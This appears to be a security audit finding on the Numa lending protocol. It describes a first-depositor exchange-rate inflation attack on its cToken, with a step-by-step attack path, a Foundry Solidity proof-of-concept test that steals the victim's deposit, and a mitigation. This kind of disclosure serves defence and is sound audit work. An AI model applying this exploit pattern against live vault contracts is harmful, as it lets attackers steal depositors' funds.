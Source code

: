 Small Shamrock Rook

High

# The cToken exchange rate can be inflated to steal from the first depositor

### Summary

The CNumaToken's share value can be inflated, causing the first depositor's deposit to yield zero shares, allowing the attacker to steal the entire first deposit.

### Root Cause

Typical vault inflation attack. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker mints minimal cTokens and directly transfers large amount of underlying tokens to inflate exchange rate.
2. Victim deposits large amount but receives 0 cTokens due to inflated exchange rate.
3. Attacker redeems their minimal cTokens for all the underlying tokens, stealing from victim.

### Impact

Stolen deposited funds from the depositor

### PoC

Add the test to [`Lending.t.sol`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/Test/Lending.t.sol#L20):

```solidity
function test_cTokenInflationAttack() public {
    address attacker = makeAddr("attacker");
    address depositor = makeAddr("depositor");

    // both have an initial balance of 1e20
    deal(address(numa), address(attacker), 1e20);
    deal(address(numa), address(depositor), 1e20);

    // rate before
    uint256 rate = cNuma.exchangeRateCurrent();
    console.log("rate is %e", rate);
    console.log("total supply is %e", cNuma.totalSupply());

    vm.startPrank(attacker);
    numa.approve(address(cNuma), type(uint256).max);
    uint256 mintAmt = 2e8;
    cNuma.mint(mintAmt);
    numa.transfer(address(cNuma), 1e20 - 2e8);
    
    // rate after
    rate = cNuma.exchangeRateCurrent();
    console.log("rate is %e", rate);
    console.log("total supply is %e", cNuma.totalSupply());
    

    vm.startPrank(depositor);
    numa.approve(address(cNuma), type(uint256).max);
    cNuma.mint(9e19);

    console.log("total supply after depositor mints %e", cNuma.totalSupply());
    vm.startPrank(attacker);
    cNuma.redeem(1);
    console.log("total supply after i redeem %e", cNuma.totalSupply());
    console.log("attacker balance after: %e", numa.balanceOf(attacker));
    console.log("victim balance after: %e", numa.balanceOf(depositor));

}
```

### Mitigation

Upon initialisation of the cToken, enforce an initial mint of a small amount of cTokens (e.g 1000) to make the attack infeasible.